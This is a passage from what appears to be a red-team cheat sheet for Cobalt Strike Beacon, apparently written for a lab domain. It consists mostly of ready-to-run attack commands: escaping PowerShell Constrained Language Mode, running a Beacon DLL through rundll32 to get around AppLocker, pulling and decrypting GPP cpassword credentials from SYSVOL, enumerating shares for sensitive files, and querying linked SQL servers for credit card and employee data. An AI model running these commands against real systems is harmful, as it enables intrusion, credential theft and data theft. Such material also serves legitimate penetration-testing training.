 ```powershell
            }

        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```
```powershell
# break out of PowerShell Constrained Language Mode by using an unmanaged PowerShell runspace
beacon> powershell $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage

beacon> powerpick $ExecutionContext.SessionState.LanguageMode
FullLanguage

# Beacon DLL (DLLs are usually not restricted by Applocker due to performance reason)
C:\Windows\System32\rundll32.exe http_x64.dll,StartW
```
## Data Exfiltration
```powershell
# Enumerate Share
beacon> powerpick Invoke-ShareFinder
beacon> powerpick Invoke-FileFinder
beacon> powerpick Get-FileNetServer
beacon> shell findstr /S /I cpassword \\dc.organicsecurity.local\sysvol\organicsecurity.local\policies\*.xml
beacon> Get-DecryptedCpassword

# Find accessible share having juicy information
beacon> powerpick Find-DomainShare -CheckShareAccess
beacon> powerpick Find-InterestingDomainShareFile -Include *.doc*, *.xls*, *.csv, *.ppt*
beacon> powerpick gc \\fs.dev.cyberbotic.io\finance$\export.csv | select -first 5

# Search for senstive data in directly accessible DB by keywords
beacon> powerpick Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "email,address,credit,card" -SampleSize 5 | select instance, database, column, sample | ft -autosize

# Search for senstive data in DB links
beacon> powerpick Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select * from information_schema.tables')"

beacon> powerpick Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select column_name from master.information_schema.columns where table_name=''employees''')"

beacon> powerpick Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select top 5 first_name,gender,sort_code from master.dbo.employees')"
```
